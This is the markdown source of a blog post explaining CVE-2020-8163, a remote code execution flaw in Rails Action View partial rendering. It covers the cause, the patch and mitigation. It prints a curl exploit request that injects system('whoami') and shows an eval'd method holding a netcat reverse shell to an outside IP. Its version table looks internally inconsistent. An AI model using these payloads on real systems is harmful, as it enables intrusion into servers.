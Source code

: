 ```yaml
---
layout: post
title:  "CVE-2020-8163"
summary: "Potential Remote Code Execution in Action View"
date: 2020-08-22 00:13:37
image: /assets/profile.png
author: tim_koopmans
categories: ruby
tags:
 - security
---
```

# Potential Remote Code Execution in Action View

If you **pass user parameters as local variables** into partials on affected versions of Rails, it is possible for attackers to perform remote code execution. From there, _really_ bad things happen.
{: .critical }

<script id="asciicast-VVnc3ItIsDe7PgbRxtASUByTH" src="https://asciinema.org/a/VVnc3ItIsDe7PgbRxtASUByTH.js" async></script>
<table>
  <thead>
    <tr>
      <th>Related Code</th>
      <th>Affected Versions</th>
      <th>Patched Versions</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td>
        <i class="devicon-ruby-plain"></i>
        <a href="https://api.rubyonrails.org/classes/ActionView.html">ActionView</a>
      </td>
      <td>
        All
      </td>
      <td>
        < 5.0.1
      </td>
    </tr>
  </tbody>
</table>

## Vulnerability[^fn-nist]

The `locals` argument to rendering a partial, does not sanitize user input. A vulnerable call to a partial template will look something like this:

```erb
<%= render partial: 'flag', locals: params %>
```

## Weakness

This vulnerability lets an attacker [inject code](http://cwe.mitre.org/data/definitions/94.html) which can lead to remote code execution.

## Attack

The attacking request will look something like this[^fn-demo]:

{% highlight bash %}
{% raw %}
curl http://target/users/index?system(%27whoami%27)%0A%23"
{% endraw %}
{% endhighlight %}

Since the query parameter contains arbitrary code and the targeted controller renders a partial view with local variables, this same code can potentially be executed on the target platform as a system call. Other variants[^fn-analysis] to this attack might include the use of \``backticks`\`.

## Analysis

The `ActionView::Template` class has a protected method called `compile` which sets the encoding of the compiled template for the view. Within this method, the dynamic views created by partials are eval'd into the encoded view. It does this by [building a string](https://github.com/rails/rails/blob/v5.0.0/actionview/lib/action_view/template.rb#L287-L293) which is a dynamic method that uses `module_eval` to [evaluates the string in the context of mod](https://apidock.com/ruby/Module/module_eval). This is how the attacker is able to run abitrary code.

The dynamic string that is built will look something like this at run time:

```ruby
def _app_views_users__unsafe_html_erb___2814227942932613306_70032701656460(local_assigns, output_buffer)
  _old_virtual_path, @virtual_path = @virtual_path, "users/_unsafe"
  _old_output_buffer = @output_buffer
  action = action = local_assigns[:action]
  controller = controller = local_assigns[:controller]
  system('nc 192.168.1.104 4443 -e /bin/bash')
  #
  ...
ensure
  @virtual_path, @output_buffer = _old_virtual_path, _old_output_buffer
end
```

You can see in this example, the system method where the attacker then uses netcat to perform a reverse shell from within your server environment. This would of course depend on you having netcat installed, but given the attacker could chain these system calls, they could perform the necessary steps through remote code execution.

So how did this system call get into the dynamically eval'd method above in the first place?

The first thing the attacker would need, is for you to be rendering partials with the locals argument:

```erb
<%= render partial: 'flag', locals: params %>
```

When the `compile` method builds the aforementioned string, it makes another call to the `locals_code` [method in the same class](https://github.com/rails/rails/blob/v5.0.0/actionview/lib/action_view/template.rb#L327-L330) which looks like this:


```ruby
def locals_code #:nodoc:
  # Double assign to suppress the dreaded 'assigned but unused variable' warning
  @locals.each_with_object('') { |key, code| code << "#{key} = #{key} = local_assigns[:#{key}];" }
end
```

You can see here, that the `@locals` array iterates over each item and concatenates it to the string object. If the attacker passed in a parameter such as `system(%27whoami%27)%0A%23` then the resulting string will look something like:

```ruby
system(\'nwhoami\')
# = system(\'nwhoami\')
# = local_assigns[:system(\'nwhoami\')
```

By properly encoding the parameter, and appending a new line `%0A` followed by a hash `%23` the attacker is able to create a syntactically correct, dynamic method which is when evaluated, executes their system call.

A more simple demonstration with Ruby looks like this:

```ruby
source = 'def dynamic_method
  system(\'whoami\')
  #
end'

class Thing
end

Thing.module_eval(source)

irb(main):052:0> Thing.new.dynamic_method
root
```

## Fix

The best fix for this, is to upgrade Rails to a patched version.

The patch itself, sanitizes items in the `@locals` array of the `locals_code` method with something like this:

```ruby
+        locals = @locals.to_set - Module::DELEGATION_RESERVED_METHOD_NAMES
+        locals = locals.grep(/\A(?![A-Z0-9])(?:[[:alnum:]_]|[^\0-\177])+\z/)
```

The vulnerability can also be mitigated by making sure you do not render partials with user provided paramaters with something like this instead:

```erb
<%= render partial: 'flag', locals: { user: @user } %>
```

# Research

You can re-create this in a [CVE laboratory environment](https://github.com/correkthorse/rails-cve-testing) using Docker.

    CVE=CVE-2020-8163 RAILS_VERSION=4.2.11.1 make lab

# References

[^fn-nist]: [First published at NVD on 7 February 2020](https://nvd.nist.gov/vuln/detail/CVE-2020-8163)
[^fn-demo]: [CVE-2020-8163 - Remote code execution of user-provided local names in Rails](https://github.com/sh286/CVE-2020-8163)
[^fn-analysis]: [CVE-2020-8163: Partial Remote Code Execution](https://medium.com/@qazbnm456/cve-2020-8163-partial-remote-code-execution-c6f46bcdef2)
